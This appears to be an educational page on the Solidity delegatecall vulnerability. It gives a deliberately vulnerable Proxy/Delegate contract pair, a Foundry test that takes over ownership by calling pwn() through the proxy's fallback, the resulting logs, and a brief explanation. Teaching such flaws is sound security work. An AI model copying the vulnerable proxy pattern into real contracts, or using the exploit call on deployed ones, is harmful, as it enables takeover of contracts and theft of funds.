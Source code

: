 # Delegate

``` text copy
contract Delegate {
    address public owner; 
    function pwn() public {
        owner = msg.sender;
    }
}
```

# Proxy

``` text copy
contract Proxy {
    address public owner = address(0xdeadbeef); // slot0
    Delegate delegate;
    constructor(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
    }

    fallback() external {
        (bool suc,) = address(delegate).delegatecall(msg.data); 
        require(suc, "Delegatecall failed");
    }
}
```

# ContractTest

``` text copy
contract ContractTest is Test {
    Proxy proxy;
    Delegate DelegateContract;
    address alice;

    function setUp() public {
        alice = Makeaddr("alice");
    }

    function testDelegatecall() public {
        DelegateContract = new Delegate();              // logic contract
        proxy = new Proxy(address(DelegateContract));   // proxy contract
        console.log("Alice address", alice);
        console.log("DelegationContract owner", proxy.owner());
        
        // Delegatecall allows a smart contract to dynamically load code from a different address at runtime.
        console.log("Change DelegationContract owner to Alice...");
        vm.prank(alice);
        
        address(proxy).call(abi.encodeWithSignature("pwn()")); // exploit here
        console.log("DelegationContract owner", proxy.owner());
    }
}
```

``` text copy
Logs:
    Alice address 0x328809Bc894f92807417D2dAD6b7C998c1aFdac6
    DelegationContract owner 0x00000000000000000000000000000000DeaDBeef
    Change DelegationContract owner to Alice...
    DeleGationContract owner 0x328809Bc894f92807417D2dAD6b7C998c1aFdac6
```

``` text copy
DelegateContract = new Delegate();  // logic contract
proxy = new Proxy(address(DelegateContract));   // proxy contract
```

``` text copy
console.log("Alice address", alice);
console.log("DelegationContract owner", proxy.owner());
console.log("Change DelegationContract owner to Alice...");
vm.prank(alice);
```

``` text copy
address(proxy).call(abi.encodeWithSignature("pwn()")); // exploit here
console.log("DelegationContract owner", proxy.owner());
```

How?

``` text copy
address(proxy).call(abi.encodeWithSignature("pwn()"));
```

There is no pwn function in proxy contract and this falls to fallback function in proxy contract.

``` text copy
(bool suc,) = address(delegate).delegatecall(msg.data);
```

Fallback function delegatecall to delegate address with msg.data (abi.encodeWithSignature(“pwn()”))

``` text copy
function pwn() public {
    owner = msg.sender;
}
```

In the delegate contract, msg.sender will be owner also in proxy contract.